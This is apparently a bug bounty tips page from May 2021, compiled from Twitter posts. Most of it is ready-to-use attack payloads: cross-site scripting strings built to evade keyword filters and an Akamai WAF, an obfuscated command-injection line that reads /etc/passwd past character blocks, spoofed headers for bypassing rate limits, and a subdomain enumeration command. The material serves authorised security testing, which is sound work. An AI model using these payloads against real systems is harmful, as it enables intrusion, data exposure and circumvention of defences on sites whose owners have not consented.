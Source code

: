 # Bug Bounty Tips - May 2021

# 📅 03-May-2021
## Black small squareBlacklisted keywords
1. Tags like img, iframe, body
2. Common attributes like onerror, onload
3. Methods like alert, prompt, confirm

Black small squareAllowed:
1. Characters like > , <

Final payload:
```js
<svg><animate onend=a\u006cert(1) dur=1s>
```
***Source: https://twitter.com/nehatarick/status/1387716353663119366?s=20***

## Reflected XSS Akami Waf Bypass in Redirect Parameter using HTTP Parameter Pollution and Double Url Encode:
```js
/login?ReturnUrl=javascript:1&ReturnUrl=%2561%256c%2565%2572%2574%2528%2564%256f%2563%2575%256d%2565%256e%2574%252e%2564%256f%256d%2561%2569%256e%2529
```

## Stored XSS Payload
```js
&quot;&gt;&lt;img src=x onerror=confirm(document.domain);&gt;
```

# 📅 10-May-2021
## XXE Zero to Hero
- https://infosecwriteups.com/xxe-from-zero-to-hero-b38118750556

# 📅 17-May-2021
## OS Command Injection
If you've found an OS command Injection with WAF enabled, special characters like 
```text
(/"'&|()-;:.,`)
```
and whitespaces blocked. Try this method to bypass.

**E.g.: reading `/etc/passwd file`**
```sh
cat$IFS$9${PWD%%[a-z]*}e*c${PWD%%[a-z]*}p?ss??
```
![img](https://pbs.twimg.com/media/E1cZ_WXWUAQ0jSL?format=jpg&name=small)
***Credit: Aysar Harb***

## Some Rate Limit Bypass Headers #BugBounty 
```text
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1   
X-Forwarded-Host : 127.0.0.1 
X-Client-IP : 127.0.0.1 
X-Host : 127.0.0.1 
Forwarded: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For-IP: 127.0.0.1
X-True-IP: 127.0.0.1
```

## Hunters on github

1. go get -u http://github.com/gwen001/github-subdomains

2. github-subdomains -t $token -d $domain -k

Replace $token with github token, $domain with public/private bounty program and watch the results closely.
**Source: https://twitter.com/naglinagli/status/1393967961405263873?s=20**
